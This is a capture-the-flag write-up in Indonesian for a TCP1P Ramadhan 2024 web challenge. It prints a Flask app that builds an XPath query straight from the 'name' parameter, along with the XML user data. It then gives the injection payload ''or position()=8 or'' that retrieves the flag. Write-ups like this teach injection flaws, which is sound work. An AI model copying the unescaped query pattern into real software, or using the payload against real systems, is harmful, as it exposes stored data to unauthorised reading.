



#TCP1P CTF Special Ramadhan 2024

#Desc
> Maaf, aku tidak begitu mengingat deskripsi soal :(
`[chall.zip]`

## About the Challenge
Given 1 file yaitu `[chall.zip]`

## How to solve?
Hmm, kita coba jalankan dulu


cek source nya,
```
from flask import Flask, request, render_template
from lxml import etree

app = Flask(__name__)

# Load XML data
tree = etree.parse('users.xml')
root = tree.getroot()


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/query', methods=['GET'])
def query():
    name = request.args.get('name', '')
    xpath_query = f"/users/user[username='{name}']"
    result = root.xpath(xpath_query)

    if len(result) > 0:
        return f"User {etree.tostring(result[0], encoding=str)} found!"
    else:
        return "No matching user found."

if __name__ == '__main__':
    app.run(debug=True)
```
# users.yaml
```                                                                                                                                                                        
<users>
    <user>
        <username>John</username>
    </user>
    <user>
        <username>Alice</username>
    </user>
    <user>
        <username>Bob</username>
    </user>
    <user>
        <username>Charlie</username>
    </user>
    <user>
        <username>Eve</username>
    </user>
    <user>
        <username>Frank</username>
    </user>
    <user>
        <username>Grace</username>
    </user>
    <user>
        <username>TCP1P{f4ke_fl4g_d0nt_subm1t}</username>
    </user>
    <user>
        <username>Isabel</username>
    </user>
    <user>
        <username>Jack</username>
    </user>
</users>
```

Yap benar, query string pada argumen name langsung menjadi input dari username tanpa filter apapun, itu adalah vulnerablenya. 
Kita coba untuk xpath injection, kenapa? 
- karena input dimasukkan dalam path `/.../.../...` 
- tidak ada pembungkus func execute `exec()` atau `eval()` pada wadah dari input
- lalu kita response akan selalu menampikan username pada row tertentu artinya kita harus mengubah arah dari arah yang ditetapkan menjadi row ke (flag)
Sehingga ini cara identifikasi saya dalam menjudge xpath injection tecnique.

Jujur aku mencari payload membutuhkan beberapa waktu, dan tidak sesimple yang seperti pada tulisan ini, tetapi akhirnya aku menemukan payload yang tepat. [referensi](https://snyk.io/blog/prevent-xpath-injection-attacks)



kalian bisa salin disini 
```
'or position()=8 or'
```



Alhamdulillah, kita dapatkan flagnya

```
TCP1P{aku_bisa_simple_xpath_injection_yey!}
```

